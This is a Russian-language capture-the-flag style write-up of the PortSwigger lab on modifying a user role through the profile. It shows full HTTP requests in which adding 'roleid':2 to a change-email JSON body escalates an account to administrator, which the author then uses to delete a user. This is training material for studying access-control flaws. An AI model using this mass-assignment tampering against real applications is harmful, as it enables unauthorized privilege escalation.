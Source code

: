 ```yaml
---
title: "User role can be modified in user profile"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile"
classes: wide
---
```


В данной лабе есть ендпоинт `/admin`. Для получения доступа нужно установить `roleid` в 2. Для решения нужно удалить пользователя `carlos`. Даны креды `wiener`:`peter`.

```
https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
```

## Solution

Зайду в аккаунт и попробую перейти на админ-панель.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/1.png){: height="200" .align-center}

В лк есть возможность сменить почту. Попробую это сделать:

```http
POST /my-account/change-email HTTP/2
Host: 0a3a00ad0400e296e61a760700300094.web-security-academy.net
Cookie: session=0HDsFaqSQFPL0OnVFYE9rMckpsRgtHBA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net/my-account?id=wiener
Content-Type: text/plain;charset=UTF-8
Content-Length: 24
Origin: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@mail.com"}
```

Ответ:

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "new@mail.com",
  "apikey": "i8MIpGMUiEIx9oc6TvuBS30nGyS2fcNV",
  "roleid": 1
}
```

Вижу поле `roleid`. Попробую отредачить тело запроса, чтобы изменить это значение на 2:

```http
POST /my-account/change-email HTTP/2
Host: 0a3a00ad0400e296e61a760700300094.web-security-academy.net
Cookie: session=0HDsFaqSQFPL0OnVFYE9rMckpsRgtHBA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net/my-account?id=wiener
Content-Type: text/plain;charset=UTF-8
Content-Length: 38
Origin: https://0a3a00ad0400e296e61a760700300094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@mail.com",
"roleid":2 }
```

Ответ:

```http
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 116

{
  "username": "wiener",
  "email": "new@mail.com",
  "apikey": "i8MIpGMUiEIx9oc6TvuBS30nGyS2fcNV",
  "roleid": 2
}
```

Попробую зайти в админ-панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/2.png){: height="200" .align-center}

Успех. Удалю пользователя:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_can_be_modified_in_user_profile/3.png){: height="200" .align-center}